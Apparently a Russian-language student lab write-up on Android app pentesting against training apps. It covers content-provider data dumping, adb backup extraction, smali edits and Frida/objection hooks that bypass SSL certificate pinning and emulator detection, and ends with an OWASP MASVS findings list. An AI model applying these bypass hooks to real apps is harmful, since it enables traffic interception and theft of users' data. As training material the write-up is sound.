

Здесь происходит поиск сохраненного пароля в encryptedSharedPreferences по ключу email, однако если он не был зарегистрирован, то метод `getString()` вернет null.

Далее восстановить логику проверки пароля при авторизации не смог, хотя подозрительно, что поля для ввода логина и пароля допускают ввод символа перевода строки.
### Задание №3
Первый матчер `/all` отдаст всю таблицу в том случае, когда параметр совпадет со значением brand из системных данных устройства. Полный пейлоад:
```
content query --uri content://com.codeby.p4.notesprovider/all/google
```
Результат:
```
generic_x86_arm:/ # content query --uri content://com.codeby.p4.notesprovider/all/google
Row: 0 uid=1, title=note1, text=my note 1, secret=phrase, photo=, user_login=mail@mail.ru
Row: 1 uid=2, title=cghncghn, text=ghncgnh, secret=phrase, photo=file:///storage/emulated/0/Android/data/com.codeby.p4/files/msf%3A33, user_login=mail@mail.ru

```



Матчер `id/` работает следующим образом: последняя часть должна состоять из двух чисел азделенных точкой: первое - рандомное, которое выводится матчером `thirdparty`, второе - id строки. При этом в БД попадают записи не об уникальных пользователях, а об заметках. Поэтому для использования этого матчера, нужно сначала вызвать четвертый, узнать случайное значение, и затем вызвать второй.
Результат:
```
generic_x86_arm:/ # content query --uri content://com.codeby.p4.notesprovider/thirdparty
Row: 0 value=1281045774
generic_x86_arm:/ # content query --uri content://com.codeby.p4.notesprovider/id/1281045774.1
Row: 0 uid=1, title=note1, text=my note 1, secret=phrase, photo=, user_login=mail@mail.ru
generic_x86_arm:/ # content query --uri content://com.codeby.p4.notesprovider/id/1281045774.2                                                                                                    
Row: 0 uid=2, title=cghncghn, text=ghncgnh, secret=phrase, photo=file:///storage/emulated/0/Android/data/com.codeby.p4/files/msf%3A33, user_login=mail@mail.ru
```



### Задание №4
В манифесте есть правило:
`android:fullBackupContent="@xml/backup_rules"` - ссылка на файд в /res/xml, одержащем настройки при бэкапе приложения. в нашем случае, его содержимое:
```
<?xml version="1.0" encoding="utf-8"?>  
<full-backup-content/>
```

Что говорит о том, что бэкапится будет абсолютно все (и приватные директории, и внешние хранилища). Это само по себе тоже является уязвимой логикой, т.к. бэкапятся и изображения заметок, и БД с заметками и секретом для восстановления пароля и т.д.

Создать бэкап:
```
adb backup -apk -f p4_backup.ab com.codeby.p4
```

распаковать .ab бэкап:
```
abe unpack backup.ab backup.tar
```

При этом при создании бэкапа потребуется задать пароль, и ввести его при использовании `abe`.
В итоге получится архив tar, в котором будет в `/apps/<package_name>/`:
- _manifest - задекоженный манифест
- /a/.apk - само приложение
- /db - базы данных
- /ef - файлы внешнего хранилища
- /f - profileinstaller_profileWrittenFor_lastUpdateTime.dat
- /r - файлы текстур, вебвью
- /sp - файлы из shared_prefs

Занятие №11
----------------
### Прослушивание трафика p6s-1
Строчка для манифеста: `android:networkSecurityConfig="@xml/network_security_config"`
Пример файла network_security_config.xml:
```xml
<?xml version="1.0" encoding="utf-8"?>
<network-security-config>
	<base-config cleartextTrafficPermitted="false">
		<trust-anchors>
			<certificates src="system" />
			<certificates src="user" />
		</trust-anchors>
	</base-config>
</network-security-config>
```
Пример успешного просушивания:





### Прослушивание трафика p6s-2
Аналогично предыдущему приложению, заменяю содержимое файла netconfig.xml на:
```xml
<?xml version="1.0" encoding="utf-8"?>
<network-security-config>
	<base-config cleartextTrafficPermitted="false">
		<trust-anchors>
			<certificates src="system" />
			<certificates src="user" />
		</trust-anchors>
	</base-config>
</network-security-config>
```

Пример успешного просушивания:





### Прослушивание трафика p6s-3
В первую очередь, избавляемся от пиннинга в коде:



Ищем 46ю строку в .smali коде и удаляем ее:



Кроме этого, добавляем правила networkSecurityConfig аналогично предыдущим заданиям.
Пример успешного просушивания:




### Прослушивание трафика p7
На самом деле, не понял, почему именно приложение вылетает на старте, но попробовал выполнить все действия по открутке ssl пиннинга. После анализа кода, стало ясно, что он повторяет код приложения p6s-3, только обфусцирован. После переименования классов и методов, все стало еще яснее.
Место, аналогичное пиннингу приложениии выше, здесь выглядит подобным образом:


Необходимо найти 13ю строку в smali коде и удалить ее:


А так же кроме этого, добавляем правила networkSecurityConfig аналогично предыдущим заданиям.

После этого приложение все так же вылетает при запуске, починить не удалось.

Занятие №12
----------------
Нашел скрипт [тут](https://github.com/u0pattern/Anti-EmuDetector/blob/main/script.js)
Он байпасит именно эмулятор, на codeshare есть более универсальный байпасс (рут + эмулятор + пиннинг).

В начале проверка работает:


Команда для запуска приложения через фриду с хуком:
```
frida -U -f com.codeby.p1 -l ../frida_hooks/emul_bypass.js 
```

Хук сработал:


Занятие №13
----------------
Для сохранения чистых данных в shared preferences для простоты инъекции можно изменить только метод `.SecondActivity.s(String str)`, который получает строку и хэширует ее. т.к. этот метод используется сразу в putString для сохранения в secondctivity.xml.

js-хук:
```js
Java.perform(function () {
	var SecondActivity = Java.use("com.codeby.p1.Secondctivity");
		SecondActivity.s.implementation = function (str) {
		console.log("SecondActivity.s input string: " + str);
		return str;
	};
});
```

Отработка хука:


Чистые данные в SharedRrefernces:


Занятие №14
----------------
Код js хука:
```js
function btnJustGo() {
	Java.perform(function() {
		Java.scheduleOnMainThread( function() {
			var done=false;
			Java.choose("com.codeby.p1.Secondctivity", {
				"onMatch":function(instance){
					send("[*] Instance found:");
					if(!done){
					let view = instance.findViewById(0x7f080065);
					send("view="+view);
					let btn = Java.cast(view, Java.use("android.widget.Button"));
					btn.performClick();
					done=true;
					}
				},
				"onComplete":function(){
					console.log("[*] Finished heap search");
				}
			});
		});
	});
}

rpc.exports = {
	btnjustgo: btnJustGo,
};
```

Код вызова на пайтон:
```python
import frida
import time

script = ""
with open("btnsavecreds.js", "r") as file:
	script = file.read()

def on_message(message, data):
	if message.get("payload"):
		print("[*] Message:", message["payload"])
	elif message.get("type") == "error":
		print("[!] Error:", message)

  

pkg_name = "com.codeby.p1"
device = frida.get_usb_device(2)
pid = device.spawn([pkg_name])
session = device.attach(pid)
  
time.sleep(1)
print("[*] Creating script")

running_script = session.create_script(script)
running_script.on("message", on_message)
running_script.load()
device.resume(pid)
print("[*] Script loaded")

is_click = input("Tap to click on button (press any key) or sip (press Enter): ")
if is_click is not None:
	print("[*] Calling RPC method")
	running_script.exports_sync.btnjustgo()
	input("Press Enter to unload script...")

running_script.unload()
print("[*] Script unloaded")
```

Пример вызова:


Занятие №15
----------------
Т.к. код сильно обфусцировался, в том числе порядок выполнения, нужен немного другой подход.

Суть та же, чтобы у объекта `okHttpClient` поле осталось пустым. В необфусцированном коде можно просто изменить имплементацию конкретного метода, а в обфусцированном коде этот метод просто заменяется присваиванием, причем в методе `get`, переписывать который тяжело. Основной код для переработки следующий:
```
CertificatePinner certificatePinner = new CertificatePinner(builder);  
OkHttpClient okHttpClient = new OkHttpClient();  
this.client = okHttpClient;  
okHttpClient.certificatePinner = certificatePinner;
```

Нужно добиться того, чтобы `certificatePinner` был null-ом. Для этого можно переписать реализацию `CertificatePinner`, чтобы его конструктор ничего не делал, т.е. возвращал бы null. Вот код конструктора:
```
public CertificatePinner(Builder builder) {  
	Map<String, Set<ByteString>> map = builder.f2636a;  
	byte[] bArr = g2.h.f2871a;  
	this.f2635a = Collections.unmodifiableMap(new LinkedHashMap(map));  
}
```

Однако такой способ не работал, или я просто не смог написать работающий хук. 

Решил идти с конца: Мы видим сообщение об ошибке пиннинга сертификата, поищем такие строки в коде. Эти строки присутствуют в методе `chek`(обфусцированный `a`) класса `CertificatePinner` - обфусцированная версия которого, это `f2.r`. Если проанализировать метод, будет ясно, что при успешном пиннинге в какой-то момент происходит просто return,  значит хуком нужно просто переписать метод так, чтобы он просто сразу возвращал ничего через `return`.

Вот изначальный обфусцированный код:
```js
    public final void check(String str, List<Certificate> list) {  
        Set<ByteString> set;  
        Set<ByteString> set2 = this.hostnameToPins.get(str);  
        int indexOf = str.indexOf(46);  
        if (indexOf != str.lastIndexOf(46)) {  
            Map<String, Set<ByteString>> map = this.hostnameToPins;  
            StringBuilder g3 = SpecialEffectsController.g("*.");  
            g3.append(str.substring(indexOf + 1));  
            set = map.get(g3.toString());  
        } else {  
            set = null;  
        }  
        if (set2 == null && set == null) {  
            set2 = null;  
        } else if (set2 != null && set != null) {  
            LinkedHashSet linkedHashSet = new LinkedHashSet();  
            linkedHashSet.addAll(set2);  
            linkedHashSet.addAll(set);  
            set2 = linkedHashSet;  
        } else if (set2 == null) {  
            set2 = set;  
        }  
        if (set2 == null) {  
            return;  
        }  
        int size = list.size();  
        for (int i3 = 0; i3 < size; i3++) {  
            if (set2.contains(c((X509Certificate) list.get(i3)))) {  
                return;  
            }  
        }  
        StringBuilder sb = new StringBuilder();  
        sb.append("Certificate pinning failure!");  
        sb.append("\n  Peer certificate chain:");  
        int size2 = list.size();  
        for (int i4 = 0; i4 < size2; i4++) {  
            X509Certificate x509Certificate = (X509Certificate) list.get(i4);  
            sb.append("\n    ");  
            sb.append(pin(x509Certificate));  
            sb.append(": ");  
            sb.append(x509Certificate.getSubjectDN().getName());  
        }  
        sb.append("\n  Pinned certificates for ");  
        sb.append(str);  
        sb.append(":");  
        for (ByteString byteString : set2) {  
            sb.append("\n    sha1/");  
            sb.append(byteString.base64());  
        }  
        throw new SSLPeerUnverifiedException(sb.toString());  
    }
```

Вот готовый хук:
```js
Java.perform(function () {
	var CertificatePinner = Java.use("f2.f");
	CertificatePinner.a.overload("java.lang.String", "java.util.List").implementation = function (host, certificateList) {
		console.log("[+] Certificate pinning check bypassed for host: " + host);
		return;
	};
	console.log("[+] Hook installed to bypass certificate pinning checks.");
});
```

При использовании хука для переписывания TrustManager-а я изменил имя сертификата скрипта для удобства.

Команда для запуска фриды:
```
frida -U -f com.codeby.p7 -l ~/Workspace/mobile_pentest/frida_hooks/js_hooks/sslbypasspinning.js
```

Пример срабатывания хуков:


часто запросы к рамблеру очень медленно шли, отображения на экране не было, но запросы действительно перехватывались:


Занятие №16
----------------
Проблема в том, что приложение p7 сразу вылетает при запуске через objection, даже если я сразу передаю команду для обхода TRustManager-а, хотя это спасало во Фриде. Решил смоделировать эти действия на приложении p62_3, т.к. оно вроде идентично p7, только не обфусцированно.

В первую очередь, использую:
```
android sslpinning disable
```


Затем логика такая же, как и в задании 15:
- Смотрю в какой момент выкидывается ошибка об несоответствиии сертификатов. 
- Ищу это в коде
- Хукаю это место

С помощью вывода методов класса CertificatePinner, вижу два перегруженных метода check:
```
(agent) Hooking com.squareup.okhttp.CertificatePinner.pin(java.security.cert.Certificate)
(agent) Hooking com.squareup.okhttp.CertificatePinner.sha1(java.security.cert.X509Certificate)
(agent) Hooking com.squareup.okhttp.CertificatePinner.check(java.lang.String, java.util.List)
(agent) Hooking com.squareup.okhttp.CertificatePinner.check(java.lang.String, [Ljava.security.cert.Certificate;)
(agent) Hooking com.squareup.okhttp.CertificatePinner.findMatchingPins(java.lang.String)
```


Можно пере инициализировать любую, чтобы они сразу прекращали работу просто установкой return. Первую функцию я хукал в прошлом задании, теперь попробую хукануть вторую. Вот готовый хук:
```js
Java.perform(function () {
	var CertificatePinner = Java.use("com.squareup.okhttp.CertificatePinner");
	CertificatePinner.check.overload('java.lang.String', '[Ljava.security.cert.Certificate;').implementation = function (host, certificateArr) {
		return;
	};
	console.log("[+] Hook installed to bypass certificate pinning checks.");
});
```

И он не сработал, видимо потому что изначально метод вообще ничего не возвращал. Возвращаюсь к хуку из предыдущего задания:
```js
Java.perform(function () {
	var CertificatePinner = Java.use("com.squareup.okhttp.CertificatePinner");
	CertificatePinner.check.overload('java.lang.String', 'java.util.List').implementation = function (host, certificateArr) {
		console.log("[+] Certificate pinning check bypassed for host: " + host);
		return;
	};
	console.log("[+] Hook installed to bypass certificate pinning checks.");
});
```

Если загружать через фриду, все, как обычно, работает.
Пробовал загружать прямо в objection через `import <path`, выкидывает ошибку:
```
An unexpected internal exception has occurred. If this looks like a code related error, please file a bug report!
invalid PID
```

Однако несмотря на ошибку, он действительно загружается и успешно отрабатывает.
Занятие №17
----------------
MobSF поставил локально для возможности динамического анализа, однако в pdf отчет получить пока не могу, каких то зависимостей не хватает для формирования pdf.
Результаты полученного отчета:


Занятие №18
----------------
Классификация осуществлялась по OWASP MASVS v1.5.0

### V2: Требования к конфиденциальности и хранению данных
- Логин при последней авторизации хранится в открытом виде во внутреннем хранилище - MASVS 2.2 (MSTG-STORAGE-2)
- При авторизации в логи выводится пароль в base64 (можно сказать в открытом виде) - MASVS 2.3 (MSTG-STORAGE-3)
- Местонахождение картинок заметок, заявленных как секретные, раскрывается при открытии картинки в WebView, которая логирует полученный url - MASVS 2.3 (MSTG-STORAGE-3)
- Логин и пароль передаются в открытом виде при авторизации через диплинк - MASVS 2.6 (MSTG-STORAGE-6)
- При восстановлении пароля с помощью секретной фразы пароль выводится в уведомлении в открытом виде - MASVS 2.7 (MSTG-STORAGE-7)
- Правила бэкапапа позволяют бэкапить файлы внешнего хранилища (где хранятся картинки заметок) и внутреннего хранилища, включая shared prefs и notesdb - MASVS 2.8 (MSTG-STORAGE-8)
- Приложение не требует установки пин-кода на устройство - MASVS 2.11 (MSTG-STORAGE-11)
- Приложение требует пароля длиной лишь в 4 символа и не советует лучших практик для безопасности - MASVS 2.12 (MSTG-STORAGE-12)
- Все конфиденциальные данные хранятся локально - MASVS 2.13 (MSTG-STORAGE-13)
- Нет ограничения попыток авторизации, после которых локальное хранилище очищалось бы - MASVS 2.15 (MSTG-STORAGE-15)

### V4: Требования к аутентификации и управлению сессиями
- Не реализована двухфакторная аутентификация - MASVS 4.9 (MSTG-AUTH-9)

### V6: Требования к взаимодействию с операционной системой
- Приложение запрашивает разрешение на доступ к камере, но не использует его - MASVS 6.1 (MSTG-PLATFORM-1)
- Авторизационные данные, полученные как из диплинка, так и из UI интерфейса, никак не валидируются - MASVS 6.2 (MSTG-PLATFORM-2)
- URL, получаемый WebView, никак не санитизируется и не проверяется - MASVS 6.2 (MSTG-PLATFORM-2)
- JavaScript включен в WebView, хотя в этом нет необходимости - MASVS 6.5 (MSTG-PLATFORM-5)
- WebView никак не проверяет URL-схемы - MASVS 6.6 (MSTG-PLATFORM-6)

### V8: Требования к устойчивости к атакам на стороне клиента
- Приложение никак не реагирует на root окружение - MASVS 8.1 (MSTG-RESILIENCE-1)
- Приложение позволяет использовать отладчик и никак это не обнаруживает - MASVS 8.2 (MSTG-RESILIENCE-2)
- Приложение никак не реагирует на запуск на эмуляторе - MASVS 8.5 (MSTG-RESILIENCE-5)
- Приложение не обнаруживает и не реагирует на изменение своего кода и данных в оперативной памяти (динамическая инструментация через frida возможна) - MASVS 8.6 (MSTG-RESILIENCE-6)
- Никакие из пунктов MASVS 8.1 - 8.6 не используются - MASVS 8.7 (MSTG-RESILIENCE-7)
- Приложение никаким образом не формирует свой отпечаток на устройстве - MASVS 8.10 (MSTG-RESILIENCE-10)


